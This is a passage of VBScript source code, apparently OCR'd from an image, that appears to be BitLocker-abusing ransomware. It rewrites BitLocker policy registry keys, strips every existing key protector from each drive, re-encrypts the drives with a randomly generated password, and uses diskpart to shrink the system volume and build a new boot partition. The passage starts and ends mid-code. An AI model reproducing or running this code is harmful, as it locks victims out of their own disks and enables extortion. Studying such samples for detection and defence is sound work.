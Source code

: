 ```vbscript
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v EnableBDEWithNoTPM /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPM /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If 
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPMPIN /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPMKey /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPMKeyPIN /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v EnableNonTPM /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UsePartialEncryptionKey /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UsePIN /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34)  & Chr(39) & strRandom & Chr(39)  & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then: End If
		Next
	End If


Set objVolumes = objWMI.ExecQuery("SELECT * FROM Win32_EncryptableVolume where DriveLetter='" & Driveletters & "'")
	if objVolumes.count = 0 then
		Set colPartitions = objWMIService.ExecQuery("SELECT * FROM Win32_DiskPartition WHERE PrimaryPartition = TRUE and DiskIndex = 0")
				For Each objPartition In colPartitions
					strPartitionDeviceID = objPartition.DeviceID
					Set colLogicalDisks = objWMIService.ExecQuery("SELECT * FROM Win32_LogicalDiskToPartition WHERE Antecedent='Win32_DiskPartition.DeviceID=""" & strPartitionDeviceID & """'")
					For Each objDisk In colLogicalDisks
						Set colLogicalDisks2 = objWMIService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DeviceID='" & Replace(Mid(objDisk.Dependent, InStr(objDisk.Dependent, """") + 1), """", "") & "'")
						For Each objLogicalDisk In colLogicalDisks2
							strDriveLetter = objLogicalDisk.DeviceID
							set shrinkdisk = CreateObject("WScript.Shell").Exec("diskpart")
							shrinkdisk.StdIn.WriteLine("Select Volume " & strDriveLetter & vbCrLf)
							shrinkdisk.StdIn.WriteLine("shrink desired=100" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("exit" & vbCrLf)
							WScript.Sleep(5000)
							If InStr(1, shrinkdisk.stdout.readall , "100", vbTextCompare) > 0 then
							set shrinkdisk = CreateObject("WScript.Shell").Exec("diskpart")
							shrinkdisk.StdIn.WriteLine("Select Volume " & strDriveLetter & vbCrLf)
							shrinkdisk.StdIn.WriteLine("create partition primary size=100" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("format quick recommended override" & vbCrLf)
							WScript.Sleep(5000)
							shrinkdisk.StdIn.WriteLine("assign" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("active" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("exit" & vbCrLf)
							If InStr(1, shrinkdisk.stdout.readall , "100", vbTextCompare) > 0 then
								shrinkcomplate = "ok"
							Else
```